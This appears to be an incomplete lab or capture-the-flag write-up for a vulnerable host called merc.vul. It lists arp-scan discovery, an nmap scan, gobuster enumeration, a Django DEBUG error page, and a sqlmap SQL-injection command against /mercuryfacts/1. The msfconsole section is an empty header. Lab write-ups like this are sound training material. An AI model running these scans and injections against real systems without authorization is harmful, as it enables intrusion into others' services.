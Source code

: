 # TITLE
'url'

## Discovery
### Command used: arp-scan<br>
<br>

```
arp-scan --interface=ens33 --localnet

Interface: ens33, type: EN10MB, MAC: 00:0c:29:01:a5:1c, IPv4: 172.16.250.97
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)

172.16.250.91	08:00:27:dc:40:fb	PCS Systemtechnik GmbH
```

## Port scan
<i>A full scan determined ports 22 and 8080 were open, and a hosts entry was created for the IP</i>

### Command used: nmap
<br>

```
nmap -T4 -sV -p22,8080 merc.vul

Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 17:00 CDT
Nmap scan report for merc.vul (172.16.250.91)
Host is up (0.00055s latency).
```

## HTTP enumeration
### Command used: gobuster
<br>

```
gobuster dir --url http://merc.vul:8080 --wordlist /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
```

Browsing the URL in the browser didn't reveal anything, until we added text to the end, such as a * or /admin. This revealed an error page indicating Django was installed and DEBUG mode was enabled.<br><br>

![browsing the url](./docs/files/file.png)

NOTES AND STEPS:<br><br>

## SQL injection
### You can either manually try strings, or use a tool like SQLMap
<br>

### Command used: SQLMap
<br>

```
sqlmap -u http://merc.vul:8080/mercuryfacts/1 --answers="follow=Y" --batch

      ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

---

### Command used: none / browser URL strings

## SSH and root access
### Command used: msfconsole
<br>

